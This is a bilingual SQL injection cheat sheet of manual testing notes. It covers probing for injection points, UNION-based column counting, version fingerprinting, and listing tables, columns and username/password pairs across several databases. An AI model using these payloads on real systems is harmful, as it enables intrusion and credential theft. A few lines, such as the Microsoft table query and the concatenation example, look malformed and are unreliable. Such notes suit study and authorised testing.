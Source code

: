 # Ручное тестирование

### Определение точки ввода
1. Поиск ошибки через указание ошибочного запроса пользователя
```SQL
'
" 
--
```

2. Determining the number of columns required
```SQL
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

3. Finding columns with a useful data type
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

### Извлечение информации через уязвимый параметр

1. Database version
```SQL
Oracle: 	SELECT banner FROM v$version
            SELECT version FROM v$instance
            SELECT * FROM v$version
Microsoft:	SELECT @@version
MySQL:  	SELECT @@version
PostgreSQL:	SELECT version()
```

2. Retrieving multiple values within a single column
```SQL
' UNION SELECT NULL,username || '~' || password FROM users,NULL--

Oracle: 	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL:  	'foo' 'bar' [Note the space between the two strings]
            CONCAT('foo','bar')
```

3. Database contents / Find TABLE NAME
```SQL
#Oracle	
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

#Microsoft
table_name||FROM+information_schema.tables
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

# PostgreSQL из первого параметра. Второй используется как завершение логики запроса
UNION+SELECT+table_name,+NULL+FROM+information_schema.tables-- # Извлекаем название ТАБЛИЦ
UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_tecdsk'-- # Извлекаем название строк
UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef-- # Извлекаем содержимое строк


# MySQL	
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
